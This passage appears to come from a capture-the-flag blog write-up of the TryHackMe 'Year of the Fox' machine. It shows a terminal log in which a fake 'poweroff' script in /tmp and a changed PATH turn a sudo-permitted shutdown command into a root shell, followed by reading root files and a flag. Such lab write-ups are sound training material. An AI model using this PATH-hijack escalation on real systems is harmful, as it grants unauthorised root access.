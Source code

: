 ```bash
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
fox@year-of-the-fox:~$ echo /bin/bash > /tmp/poweroff
fox@year-of-the-fox:~$ chmod +x /tmp/poweroff
fox@year-of-the-fox:~$ export PATH=/tmp:$PATH
fox@year-of-the-fox:~$ sudo /usr/sbin/shutdown
root@year-of-the-fox:~# whoami
root
root@year-of-the-fox:~# id
uid=0(root) gid=0(root) groups=0(root)
root@year-of-the-fox:~# cd /root
root@year-of-the-fox:/root# ls -al
total 36
drwx------  5 root root 4096 Sep 21 16:46 .
drwxr-xr-x 22 root root 4096 May 29  2020 ..
lrwxrwxrwx  1 root root    9 May 28  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 May 30  2020 .cache
drwx------  3 root root 4096 May 30  2020 .gnupg
drwxr-xr-x  3 root root 4096 May 28  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   21 May 31  2020 root.txt
-rw-r--r--  1 root root   75 May 31  2020 .selected_editor
root@year-of-the-fox:/root# cat root.txt 
Not here -- go find!
root@year-of-the-fox:/root#
root@year-of-the-fox:/root# cd /home
root@year-of-the-fox:/home# ls
fox  rascal
root@year-of-the-fox:/home# cd rascal
root@year-of-the-fox:/home/rascal# ls -al
total 24
drwxr-x--- 2 rascal rascal 4096 Jun  1  2020 .
drwxr-xr-x 4 root   root   4096 May 28  2020 ..
lrwxrwxrwx 1 root   root      9 May 28  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rascal rascal  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 rascal rascal 3771 Apr  4  2018 .bashrc
-r-------- 1 rascal root    158 Jun  9  2020 .did-you-think-I-was-useless.root
-rw-r--r-- 1 rascal rascal  807 Apr  4  2018 .profile
root@year-of-the-fox:/home/rascal# cat .did-you-think-I-was-useless.root 
THM{FLAG_FLAG_FLAG_FLAG_FLAG_FLAG}

Here is the prize:

YTAyNzQ3ODZlMmE2MjcwNzg2NjZkNjQ2Nzc5NzA0NjY2Njc2NjY4M2I2OTMyMzIzNTNhNjk2ODMw
Mwo=

Good luck!
root@year-of-the-fox:/home/rascal#
```
{: .nolineno}
{: .nolineno}

>This machine mainly teaches me about Port Forwarding !!
{: .prompt-tip }

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }